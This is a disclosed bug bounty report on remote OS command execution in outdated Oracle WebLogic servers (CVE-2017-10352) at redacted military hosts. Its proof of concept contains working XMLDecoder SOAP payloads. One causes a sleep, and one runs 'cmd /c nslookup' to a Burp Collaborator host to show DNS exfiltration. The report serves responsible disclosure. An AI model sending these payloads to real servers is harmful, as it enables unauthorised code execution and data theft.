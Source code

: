 # Remote OS command Execution in the 3 more Oracle Weblogic on the ████████, ████, ███████ [CVE-2017-10352]

## Report Details
- **Report ID**: 634630
- **URL**: https://hackerone.com/reports/634630
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-07-03T19:21:18.673Z
- **Disclosed**: 2019-10-08T18:38:21.064Z

## Reporter
- **Username**: sp1d3rs
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
##Description
Hello. I was able to identify 3 more RCE vulnerabilities due to the outdated Oracle Weblogic instance on the █████████, ███, █████
After my previous discoveries I decided to dig deeper into the `███.mil` scope/IP space and found other instances of vulnerable Oracle WebLogic. I decided to fill all this additional findings in the single report

##POC
This request to the https://█████████/wls-wsat/CoordinatorPortType will trigger sleep for 10 seconds (same applies for ████████, ███████):

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: █████████
Content-Length: 423
content-type: text/xml
Accept-Encoding: gzip, deflate, compress
Accept: */*

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java class="java.beans.XMLDecoder">
        <object class="java.lang.Thread" method="sleep">
          <long>10000</long>
        </object>
      </java>  
    </work:WorkContext>
  </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
```

The next request will resolve custom Burp Collaborator hostname via `nslookup` OS command to prove that it's possible to exfiltrate data via DNS:
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: ███
Content-Length: 724
content-type: text/xml
Accept-Encoding: gzip, deflate, compress
Accept: */*

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> 
	<soapenv:Header>
		<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> 
			<java version="1.8.0_151" class="java.beans.XMLDecoder"> 
			<void class="java.lang.ProcessBuilder"> 
				<array class="java.lang.String" length="3">
				<void index = "0">
					<string>cmd</string>
				</void>
				<void index = "1"> 
					<string>/c</string> 
				</void>
				<void index = "2">
					<string>nslookup j3nxpi8ecz9uznkpu32mb7pj9af13q.burpcollaborator.net</string>
				</void>
			</array>
			<void method="start"/>
			</void>
			</java>
			</work:WorkContext> 
	</soapenv:Header> 
<soapenv:Body/>
</soapenv:Envelope>
```


Note: to reproduce the second case with `nslookup`, `j3nxpi8ecz9uznkpu32mb7pj9af13q.burpcollaborator.net` host should be replaced by your own Burp Collaborator instance to catch the DNS request

##Suggested fix
Patching WebLogic to the resent version will fix the issue.

## Impact

Remote OS command execution.

## Attachments
No attachments
